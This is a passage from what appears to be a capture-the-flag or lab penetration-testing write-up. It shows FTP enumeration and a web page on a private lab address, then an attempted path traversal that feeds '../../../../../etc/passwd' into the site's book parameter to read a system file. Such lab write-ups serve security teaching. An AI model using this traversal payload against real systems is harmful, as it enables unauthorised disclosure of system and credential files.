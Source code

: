 250 "/pub" is the current directory.

ftp> ls

229 Entering extended passive mode (|||38019|).

125 Data connection already open. Transfer starting.

226 Transfer complete.

  

## Web

  

###manual

On web home page 

Currently configuring the database, try later.

Proudly powered by phpIPAM 1.4

Database not configured. Database port at 8593

[http://192.168.235.72:8593/](http://192.168.235.72:8593/)

<html>

    <head>

<link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 

<link rel="stylesheet" type="text/css" href="style.css">

    </head>

    <body>

<div class="menu">

    <a href="index.php">Main Page</a>

    <a href="index.php?book=list">Book List</a>

</div>

We are still setting up the library! Try later on!<p></p>    </body>

</html>

Because book list has a file reference then I'll try to reference other local files.

[http://192.168.235.72:8593/index.php?book=../../../../../etc/passwd](http://192.168.235.72:8593/index.php?book=../../../../../etc/passwd)

Main Page Book List

We are still setting up the library! Try later on!

  
